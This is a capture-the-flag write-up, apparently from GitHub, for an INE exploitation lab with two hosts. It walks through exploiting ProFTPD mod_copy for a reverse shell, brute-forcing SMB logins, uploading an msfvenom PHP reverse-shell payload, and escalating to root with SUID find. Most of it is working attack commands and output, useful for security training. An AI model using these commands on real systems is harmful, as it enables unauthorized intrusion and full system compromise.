


# Host & Network Penetration Testing: Exploitation CTF 3

## Target
* `http://target1.ine.local`
* `http://target2.ine.local`

## Tools used:
* `nmap`
* `searchsploit`

---
### Flag 1: A vulnerable service maybe running on target1.ine.local. If exploitable, retrieve the flag from the root directory.
```bash
┌──(root㉿INE)-[~]
└─# nmap -Pn -sV target1.ine.local
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-27 08:27 IST
Nmap scan report for target1.ine.local (192.7.167.3)
Host is up (0.000026s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
MAC Address: 02:42:C0:07:A7:03 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.39 seconds
```
The `ProFTPD` service looks interesting, so we look it up in `searchsploit`
```bash
┌──(root㉿INE)-[~]
└─# searchsploit ProFTPD 1.3                                                                                                                                                               
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ProFTPd - 'ftpdctl' 'pr_ctrls_connect' Local Overflow                                                                                                    | linux/local/394.c
ProFTPd 1.2 < 1.3.0 (Linux) - 'sreplace' Remote Buffer Overflow (Metasploit)                                                                             | linux/remote/16852.rb
ProFTPd 1.3 - 'mod_sql' 'Username' SQL Injection                                                                                                         | multiple/remote/32798.pl
ProFTPd 1.3.0 (OpenSUSE) - 'mod_ctrls' Local Stack Overflow                                                                                              | unix/local/10044.pl
ProFTPd 1.3.0 - 'sreplace' Remote Stack Overflow (Metasploit)                                                                                            | linux/remote/2856.pm
ProFTPd 1.3.0/1.3.0a - 'mod_ctrls' 'support' Local Buffer Overflow (1)                                                                                   | linux/local/3330.pl
ProFTPd 1.3.0/1.3.0a - 'mod_ctrls' 'support' Local Buffer Overflow (2)                                                                                   | linux/local/3333.pl
ProFTPd 1.3.0/1.3.0a - 'mod_ctrls' exec-shield Local Overflow                                                                                            | linux/local/3730.txt
ProFTPd 1.3.0a - 'mod_ctrls' 'support' Local Buffer Overflow (PoC)                                                                                       | linux/dos/2928.py
ProFTPd 1.3.2 rc3 < 1.3.3b (FreeBSD) - Telnet IAC Buffer Overflow (Metasploit)                                                                           | linux/remote/16878.rb
ProFTPd 1.3.2 rc3 < 1.3.3b (Linux) - Telnet IAC Buffer Overflow (Metasploit)                                                                             | linux/remote/16851.rb
ProFTPd 1.3.3c - Compromised Source Backdoor Remote Code Execution                                                                                       | linux/remote/15662.txt
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                                                                | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                                                      | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                                                                                                  | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                                                                                                                | linux/remote/36742.txt
ProFTPD 1.3.7a - Remote Denial of Service                                                                                                                | multiple/dos/49697.py
ProFTPd 1.x - 'mod_tls' Remote Buffer Overflow                                                                                                           | linux/remote/4312.c
ProFTPd IAC 1.3.x - Remote Command Execution                                                                                                             | linux/remote/15449.pl
ProFTPd-1.3.3c - Backdoor Command Execution (Metasploit)                                                                                                 | linux/remote/16921.rb
WU-FTPD 2.4/2.5/2.6 / Trolltech ftpd 1.2 / ProFTPd 1.2 / BeroFTPD 1.3.4 FTP - glob Expansion                                                             | linux/remote/20690.sh
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```
We also look around the website to find the location of the root directory for the document.  
  
Once we have these we use the `proftpd_mos_exec` module
```bash
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set LHOST eth1
LHOST => 192.7.167.2
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set LPORT 8989
LPORT => 8989
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > run

[*] Started reverse TCP handler on 192.7.167.2:8989 
[*] 192.7.167.3:80 - 192.7.167.3:21 - Connected to FTP server
[*] 192.7.167.3:80 - 192.7.167.3:21 - Sending copy commands to FTP server
[*] 192.7.167.3:80 - Executing PHP payload /8qMlBc.php
[-] 192.7.167.3:80 - Unable to delete /var/www/html/8qMlBc.php
[*] Command shell session 1 opened (192.7.167.2:8989 -> 192.7.167.3:47340) at 2026-01-27 08:43:36 +0530
[-] 192.7.167.3:80 - Exploit aborted due to failure: unknown: 192.7.167.3:21 - Failure executing payload
[!] 192.7.167.3:80 - This exploit may require manual cleanup of '/var/www/html/8qMlBc.php' on the target
[*] Exploit completed, but no session was created.
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > sessions

Active sessions
===============

  Id  Name  Type            Information  Connection
  --  ----  ----            -----------  ----------
  1         shell cmd/unix               192.7.167.2:8989 -> 192.7.167.3:47340 (192.7.167.3)
```
We just log in into the acquired session and upgrade it to a `meterpreter` session
```bash
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.7.167.2:4433 
[*] Sending stage (1017704 bytes) to 192.7.167.3
[*] Meterpreter session 2 opened (192.7.167.2:4433 -> 192.7.167.3:53988) at 2026-01-27 08:44:33 +0530
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > sessions 2
[*] Starting interaction with 2...

meterpreter > 
```
Now we just look around to find the flag.
```bash
meterpreter > cat //flag1.txt
FLAG1{ec332401542c486894691249423392c5}
Remember, the magical word is 'letmein'
```
Flag: **ec332401542c486894691249423392c5**
### Flag 2: Further, a quick interaction with a local network service on target1.ine.local may reveal this flag. Use the hint given in the previous flag.
We first atke a look at the network services running on the machine.  
```bash
www-data@target1:~/html$ netstat -tulnp
netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8888          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.11:33249        0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -                   
udp        0      0 127.0.0.11:60920        0.0.0.0:*                           -                   
www-data@target1:~/html$ 
```
The service at ***8888*** looks interesting, so we `nc` into it and use the hint as the password to get the next flag.  
```bash
www-data@target1:~/html$ nc 127.0.0.1 8888
nc 127.0.0.1 8888
Enter the secret passphrase: letmein
FLAG2{038a29d2ae874f3bb75ace8f00f2b5af}
```
Flag: **038a29d2ae874f3bb75ace8f00f2b5af**
### Flag 3: A misconfigured service running on target2.ine.local may help you gain access to the machine. Can you retrieve the flag from the root directory?
We start with an `nmap` scan of the next target.  
```bash
┌──(root㉿INE)-[~]
└─# nmap -Pn -sV target2.ine.local
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-01-27 08:53 IST
Nmap scan report for target2.ine.local (192.7.167.4)
Host is up (0.000026s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 02:42:C0:07:A7:04 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.34 seconds
```  
The smb servers look interesting, so we just use the `smb_login` module
```bash
msf6 auxiliary(scanner/smb/smb_login) > set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
USER_FILE => /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/meta
metagoofil            metainfo              metasploit-framework  
msf6 auxiliary(scanner/smb/smb_login) > set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
PASS_FILE => /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf6 auxiliary(scanner/smb/smb_login) > set createsession true 
createsession => true
msf6 auxiliary(scanner/smb/smb_login) > run

[*] 192.7.167.4:445       - 192.7.167.4:445 - Starting SMB login bruteforce
[+] 192.7.167.4:445       - 192.7.167.4:445 - Success: '.\sysadmin:admin'
[*] SMB session 1 opened (192.7.167.2:46407 -> 192.7.167.4:445) at 2026-01-27 09:15:46 +0530
[+] 192.7.167.4:445       - 192.7.167.4:445 - Success: '.\rooty:admin'
[*] SMB session 2 opened (192.7.167.2:43343 -> 192.7.167.4:445) at 2026-01-27 09:15:47 +0530
[+] 192.7.167.4:445       - 192.7.167.4:445 - Success: '.\demo:admin'
[*] SMB session 3 opened (192.7.167.2:42821 -> 192.7.167.4:445) at 2026-01-27 09:15:47 +0530
[+] 192.7.167.4:445       - 192.7.167.4:445 - Success: '.\auditor:admin'
[*] SMB session 4 opened (192.7.167.2:43255 -> 192.7.167.4:445) at 2026-01-27 09:15:48 +0530
[+] 192.7.167.4:445       - 192.7.167.4:445 - Success: '.\anon:admin'
[*] SMB session 5 opened (192.7.167.2:46819 -> 192.7.167.4:445) at 2026-01-27 09:15:48 +0530
[+] 192.7.167.4:445       - 192.7.167.4:445 - Success: '.\administrator:admin'
[*] SMB session 6 opened (192.7.167.2:45057 -> 192.7.167.4:445) at 2026-01-27 09:15:48 +0530
[+] 192.7.167.4:445       - 192.7.167.4:445 - Success: '.\diag:admin'
[*] SMB session 7 opened (192.7.167.2:43893 -> 192.7.167.4:445) at 2026-01-27 09:15:49 +0530
[*] target2.ine.local:445 - Scanned 1 of 1 hosts (100% complete)
[*] target2.ine.local:445 - Bruteforce completed, 7 credentials were successful.
[*] target2.ine.local:445 - 7 SMB sessions were opened successfully.
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/smb/smb_login) > 
```
Once we have a session we look around to find a place where we can upload a reverse shell
```bash
[*] Starting interaction with 6...

SMB (192.7.167.4) > ls
[-] No active share selected. Use the shares command to view available shares, and shares -i <id> to interact with one
SMB (192.7.167.4) > shares
Shares
======

    #  Name          Type         comment
    -  ----          ----         -------
    0  print$        DISK         Printer Drivers
    1  site-uploads  DISK
    2  IPC$          IPC|SPECIAL  IPC Service (target2 server (Samba, Ubuntu))

SMB (192.7.167.4) > shares -i site-uploads
[+] Successfully connected to site-uploads
SMB (192.7.167.4\site-uploads) > ls
ls 
===

    #  Type  Name  Created                    Accessed                   Written                    Changed                    Size
    -  ----  ----  -------                    --------                   -------                    -------                    ----
    0  DIR   .     2024-11-19T13:25:31+05:30  2024-12-12T12:21:16+05:30  2024-11-19T13:25:31+05:30  2024-11-19T13:25:31+05:30
    1  DIR   ..    2024-11-19T13:25:31+05:30  2024-12-12T12:21:16+05:30  2024-11-19T13:25:31+05:30  2024-11-19T13:25:31+05:30

SMB (192.7.167.4\site-uploads) > 
```
We generate a shell via `msfvenom`
```bash
┌──(root㉿INE)-[~]
└─# msfvenom -p php/meterpreter/reverse_tcp LHOST=192.7.167.2 LPORT=7891 -f raw > shell.php                                                                                                
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1112 bytes
```  
and upload it to get a reverse shell.  
```bash
SMB (192.7.167.4\site-uploads) > upload shell.php
[*] Uploaded 1.09 KiB of 1.09 KiB (100.0%)
[+] shell.php uploaded to shell.php
SMB (192.7.167.4\site-uploads) > 
```
  
Oonce we have the shell we just set up a handler and wait for the connection
```bash
msf6 exploit(multi/handler) > set LHOST eth1
LHOST => 192.7.167.2
msf6 exploit(multi/handler) > set LPORT 7891
LPORT => 7891                                                                              
msf6 exploit(multi/handler) > set PaylOAD php/meterpreter/reverse_tcp                      
PaylOAD => php/meterpreter/reverse_tcp                                                     
msf6 exploit(multi/handler) > run                                                          
                                                                                           
[*] Started reverse TCP handler on 192.7.167.2:7891                                        
[*] Sending stage (39927 bytes) to 192.7.167.4                                             
[*] Meterpreter session 8 opened (192.7.167.2:7891 -> 192.7.167.4:47602) at 2026-01-27 09:25:27 +0530                                                                                 
                                                                                           
meterpreter >     
```
Next we just search around to find the flag. 
```bash
meterpreter > cat //flag3.txt
FLAG3{3155a7c7a1664a268ba7f0ec40b61b87}
```
Flag: **3155a7c7a1664a268ba7f0ec40b61b87**
### Flag 4: Can you escalate to root on target2.ine.local and read the flag from the restricted /root directory?
We first search for any folder/file that has root privileges
```bash
www-data@target2:/$ find / -perm -4000
find / -perm -4000
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/find
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/umount
```
We see that the `find` function has one. We use it to execute a simple shell command to get a root shell and use that to get the next flag.  
```bash
www-data@target2:/$ /usr/bin/find . -exec /bin/bash -p \; -quit
/usr/bin/find . -exec /bin/bash -p \; -quit
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
whoami
root
cd /
ls
bin
boot
dev
etc
flag3.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cd root
ls
flag4.txt
cat flag4.txt
FLAG4{0c51bffa39f8451686be641afd102413}
```
Flag: **0c51bffa39f8451686be641afd102413**